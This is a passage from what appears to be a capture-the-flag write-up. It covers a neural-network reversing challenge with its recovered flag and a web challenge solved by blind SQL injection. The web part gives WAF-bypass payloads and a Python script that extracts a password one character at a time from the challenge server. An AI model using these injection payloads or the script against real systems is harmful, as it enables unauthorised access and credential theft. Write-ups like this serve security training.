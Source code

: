 ... not the flag :(

#### Flag???
Tracing along the path about how input string goes into neural network:
```C++
_input = _argv[1];
for ( i = 0LL; ; i = v69++ )
{
    *&v198[8 * v69 - 8] = 1.0 / _input[i];
    if ( v69 == 41 )
        break;
}
tensorflow::TensorShapeBase::TensorShapeBase(v10, &_744, 2LL); // _744 = {1, 41}
tensorFromArray(&v234, 2LL, v198, 328LL, v10); // 328 = 1 * 41 * 8
```
flag is multicative inverse of previous result :)
`N1CTF{N3ural_Network_1s_Really_Fantastic}`

## Web

### 77777 (sasdf, bookgin)
```php
sprintf("UPDATE users SET points=%d%s", $_POST['flag'], waf($_POST['hi']);
```
- `substring` is WAFed, but `substr` is not.
- Get length: hi=`9453 where LENGTH(password)>14 and LENGTH(password)<16`
  `=` is filtered by WAF.
- Get password: hi=`9453 where md5("a") like md5(substr(password, 1, 1))`

```python
#!/usr/bin/env python3
import requests, string, re

def flush():
    data = dict(flag='',hi='1234')
    requests.post('http://47.75.14.48', data=data)

def guess(s):
    data = dict(
        flag='',
        hi=f'9453 where md5("{s}") like md5(substr(password, 1, {len(s)}))',
    )
    response = requests.post('http://47.75.14.48', data=data).text
    result = re.search('My Points.*<br/>', response)
    return (result is not None and '9453' in result.group(0))

def guessNext(prefix):
    for i in string.printable:
        flush()
        print(prefix, i)
        if guess(prefix + i):
            return prefix + i
    raise RuntimeError(pwd, 'next char not found')

pwd=''
while len(pwd) != 15:
    pwd = guessNext(pwd)
```


[haskell]: https://ghc.haskell.org/trac/ghc/wiki/Commentary/Rts/Cmm